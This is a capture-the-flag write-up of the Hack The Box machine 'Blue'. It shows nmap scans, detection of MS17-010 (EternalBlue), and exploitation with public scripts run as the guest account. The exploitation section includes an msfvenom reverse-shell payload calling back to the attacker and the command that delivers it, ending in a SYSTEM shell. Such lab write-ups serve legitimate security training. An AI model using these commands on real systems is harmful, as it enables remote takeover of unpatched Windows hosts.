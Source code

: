 # Recon

I do my initial scan to see which ports are open.

## nmap
```
# Nmap 7.92 scan initiated Mon Jul 25 16:59:49 2022 as: nmap -p- -oA first/scan --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv blue.htb
Warning: 10.129.76.113 giving up on port because retransmission cap hit (3).
Increasing send delay for 10.129.76.113 from 0 to 5 due to 6210 out of 20698 dropped probes since last increase.
Increasing send delay for 10.129.76.113 from 5 to 10 due to 503 out of 1676 dropped probes since last increase.
Increasing send delay for 10.129.76.113 from 10 to 20 due to 509 out of 1695 dropped probes since last increase.
Increasing send delay for 10.129.76.113 from 20 to 40 due to 560 out of 1865 dropped probes since last increase.
Increasing send delay for 10.129.76.113 from 40 to 80 due to 509 out of 1695 dropped probes since last increase.
Increasing send delay for 10.129.76.113 from 80 to 160 due to 835 out of 2781 dropped probes since last increase.
Increasing send delay for 10.129.76.113 from 160 to 320 due to 481 out of 1601 dropped probes since last increase.
Increasing send delay for 10.129.76.113 from 320 to 640 due to 659 out of 2195 dropped probes since last increase.
Increasing send delay for 10.129.76.113 from 640 to 1000 due to 730 out of 2433 dropped probes since last increase.
Nmap scan report for blue.htb (10.129.76.113)
Host is up, received timestamp-reply ttl 127 (0.085s latency).
Scanned at 2022-07-25 16:59:49 CDT for 20s
Not shown: 65340 closed tcp ports (reset), 186 filtered tcp ports (no-response)
PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
49152/tcp open  unknown      syn-ack ttl 127
49153/tcp open  unknown      syn-ack ttl 127
49154/tcp open  unknown      syn-ack ttl 127
49155/tcp open  unknown      syn-ack ttl 127
49156/tcp open  unknown      syn-ack ttl 127
49157/tcp open  unknown      syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
# Nmap done at Mon Jul 25 17:00:09 2022 -- 1 IP address (1 host up) scanned in 20.52 seconds
```

Then run `nmap` again with default scripts (`-sC`) and service discovery (`-sV`) on the ports that were found from the first scan.

```
# Nmap 7.92 scan initiated Mon Jul 25 17:02:09 2022 as: nmap -oA main/scan -sV -sC --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv -p 139,445,135,49155,49156,49157,49154,49153,49152 blue.htb
Nmap scan report for blue.htb (10.129.76.113)
Host is up, received echo-reply ttl 127 (0.057s latency).
Scanned at 2022-07-25 17:02:10 CDT for 69s

PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49156/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-07-25T22:03:17
|_  start_date: 2022-07-25T21:56:56
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 26118/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 26861/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 3924/udp): CLEAN (Timeout)
|   Check 4 (port 63159/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-07-25T23:03:19+01:00
|_clock-skew: mean: -19m53s, deviation: 34m36s, median: 5s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 25 17:03:19 2022 -- 1 IP address (1 host up) scanned in 70.33 seconds
```

Right away, we see some interesting information:

- SMB is enabled
- `guest` account is enabled
- OS is Windows 7
- Potential username: `haris`

Since it looks like we are possibly working with an outdated system, I'll run nmap's vulnerability scripts and see if we get anything from low hanging from fruit.

```
# Nmap 7.92 scan initiated Mon Jul 25 17:06:50 2022 as: nmap -oA vuln/scan --script vuln,safe,discovery --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv -p 139,445,135,49155,49156,49157,49154,49153,49152 blue.htb
Pre-scan script results:
|_hostmap-robtex: *TEMPORARILY DISABLED* due to changes in Robtex's API. See https://www.robtex.com/api/
| broadcast-dhcp-discover: 
|   Response 1 of 1: 
|     Interface: eth0
|     IP Offered: 192.168.0.69
|     DHCP Message Type: DHCPOFFER
|     Server Identifier: 192.168.0.1
|     IP Address Lease Time: 1d00h00m00s
|     Renewal Time Value: 12h00m00s
|     Rebinding Time Value: 21h00m00s
|     Subnet Mask: 255.255.255.0
|     Domain Name: localdomain
|     Broadcast Address: 192.168.0.255
|     Domain Name Server: 192.168.0.1
|_    Router: 192.168.0.1
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
[...]
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-07-25T23:07:44+01:00
|_ipidseq: ERROR: Script execution failed (use -d to debug)
[...]
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
Read data files from: /usr/bin/../share/nmap
# Nmap done at Mon Jul 25 17:09:33 2022 -- 1 IP address (1 host up) scanned in 163.28 seconds
```

And we see that nmap is reporting this box as vulnerable to CVE-2017-0143, aka EternalBlue.

I was able to get a shell easily with Metasploit, although since I am prepping for the OSCP I will exploit this without Metasploit.

After messing around with some pocs, I came across [this repo](https://github.com/helviojunior/MS17-010/) which is a fork of one of the more popular [repos](https://github.com/worawit/MS17-010).

First, I test with `checker.py` and see denied access for the commonly used named pipes which this exploit uses:
```
$ python2 checker.py 10.129.76.113                                                                 1 ⨯
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_ACCESS_DENIED
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: STATUS_ACCESS_DENIED
```

Since we know guest authentication is enabled from our nmap scan, I'll try setting the `USERNAME` variable in this script from `''` to `guest`.

![fc3a24ab76bc28fd3e7a63a3e287de11.png](../_resources/fc3a24ab76bc28fd3e7a63a3e287de11.png)

And run it again...

```
$ python2 checker.py 10.129.76.113
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_OBJECT_NAME_NOT_FOUND
samr: Ok (64 bit)
netlogon: Ok (Bind context 1 rejected: provider_rejection; abstract_syntax_not_supported (this usually means the interface isn't listening on the given endpoint))
lsarpc: Ok (64 bit)
browser: STATUS_OBJECT_NAME_NOT_FOUND
```

And we get "Ok's" back for `samr`, `netlogon`, and `lsarpc` pipes. Now that we know this should be exploitable via named pipes as `guest`, we should also set var `USERNAME` to `guest` in `send_and_execute.py`

![55c555e95912551fac410e7f0a04261b.png](../_resources/55c555e95912551fac410e7f0a04261b.png)

Lastly, `send_and_execute.py` accepts an executable file as an argument to be used as a payload. We'll get this created with meterpreter using the following command:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f exe > rshell.exe`

Time to run the exploit!

`python2 send_and_execute.py 10.129.76.113 rshell.exe 445 lsarpc`

![2b5a68f8bf59eb1d9bb27c66ebff389a.png](../_resources/2b5a68f8bf59eb1d9bb27c66ebff389a.png)

Annndddd just like that we are `NT AUTHORITY\SYSTEM`! We can collect our loot and move on to the next box :)


![flags.png](../_resources/flags.png)



